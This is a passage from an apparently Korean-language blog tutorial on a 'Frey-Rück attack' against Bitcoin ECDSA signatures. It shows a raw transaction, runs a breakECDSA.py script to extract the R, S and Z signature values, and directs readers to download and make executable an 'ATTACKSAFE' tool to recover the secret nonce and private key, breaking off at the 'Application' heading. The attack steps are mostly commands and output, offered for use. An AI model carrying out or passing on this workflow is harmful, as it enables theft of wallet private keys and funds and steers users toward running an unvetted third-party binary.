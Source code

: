 
<pre class="wp-block-code"><code>RawTX = 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001599b576edb0e0bf62082a30ff974d04080bfadb4dd9154f4e8949ea8da4c15182c0000006a4730440220061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff0220649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-33-1024x263.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-937"/></figure>



<pre class="wp-block-code"><code>R = 0x061e5f5c2bc146cd5070cdef9cd2376a0b2fbbdbbda698858a38190d06caf1ff
S = 0x649db1b4fbaaba2d0669f7f7635157b273146b064248d04e76c25d41971d99a1
Z = 0xb8e936d143c8733bb1ede19146f8725fee1d10bfc19e14452a51cef0cb0014d8</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><strong></strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener">공격을 구현하고 비밀 키를 얻기 위해 "ATTACKSAFE SOFTWARE"</a></strong><strong>&nbsp;소프트웨어를 사용합니다.</strong><strong><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"></a></strong></p>



<figure class="wp-block-image"><a href="https://attacksafe.ru/software/" target="_blank" rel="noreferrer noopener"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-14.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-705"/></a><figcaption class="wp-element-caption"><strong><code>www.attacksafe.ru/software</code></strong></figcaption></figure>



<h2>액세스 권한:</h2>



<pre class="wp-block-code"><code>chmod +x attacksafe</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-34.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-940"/></figure>



<h2>애플리케이션:</h2>


